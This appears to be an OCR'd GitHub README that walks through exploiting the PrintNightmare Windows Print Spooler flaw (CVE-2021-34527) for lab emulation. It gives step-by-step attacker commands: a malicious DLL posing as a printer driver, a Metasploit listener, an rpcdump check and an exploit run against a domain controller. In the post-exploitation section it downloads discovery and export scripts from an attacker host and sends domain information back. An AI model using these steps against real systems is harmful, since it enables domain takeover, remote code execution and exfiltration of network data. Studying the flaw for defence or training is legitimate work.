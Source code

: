 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)

Pre-exploitation

Attacker
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443
   https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/
3. Run SMB server service and modify the config file
4. Place the faked printer driver to the SMB path
5. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
6. Exploit the vulnerability to the target machine
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>

Target machine
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the 
   Powershell
   PS C:\Users\Administrator> get-service spooler
   PS C:\Users\Administrator> start-service spooler

**e.g. replace <username> with a domain user account login credential

# Guides to emulate the vulnerability
Ref: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file

Post-exploitation
Download 2 scripts to discovery local machine and domain group info, then send them back to attacker listener. 

'''console
<Invoke-WebRequest -Uri http://192.168.2.85:8000/discovery.bat -o discovery.bat>
<Invoke-WebRequest -Uri http://192.168.2.85:8000/export.bat -o export.bat>
'''

